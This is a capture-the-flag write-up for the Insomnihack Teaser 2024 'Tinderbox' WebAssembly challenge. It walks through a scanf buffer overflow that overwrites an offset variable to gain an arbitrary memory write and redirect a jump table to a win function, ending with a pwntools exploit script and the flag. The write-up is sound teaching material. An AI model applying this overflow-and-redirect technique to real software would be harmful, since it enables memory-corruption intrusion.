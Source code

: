 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for the Insomnihack Teaser 2024 CTF challenge "TinderBox"' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< figure src="/img/Insomnihack_teaser_2024/get_name.png" position="left" caption="Get name function" captionPosition="left">}}

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format string `%s`. It's clearly a buffer overflow.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< figure src="/img/Insomnihack_teaser_2024/jump_table.png" position="left" caption="Function table" captionPosition="left">}}

{{< figure src="/img/Insomnihack_teaser_2024/setValues.png" position="left" caption="setValues function" captionPosition="left">}}

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where `name` is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function as a reference to the first character of the `name` buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< figure src="/img/Insomnihack_teaser_2024/original_main.png" position="left" caption="original_main function" captionPosition="left">}}

We can't use the buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
*Note: in this stack representation the numbers in square bracket are refered to the size of the array.*

```
+______________________________+
|                              |
|  uint jump_table_offsets[4]  |
|______________________________|
|                              |
|        char name[16]         |
|______________________________|
|                              |
|       int name_offset        |
|______________________________|
|                              |
|           something          |
|_____________________________ |
|                              |
|              ret             |
+______________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions. Basically we only need to modify `jump_tables_offset[1]` from value **1** to **2**, so we'll call `win` function when we run third option in the menu.

{{< figure src="/img/Insomnihack_teaser_2024/menu.png" position="left" caption="menu function" captionPosition="left">}}

After some trial and errors we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
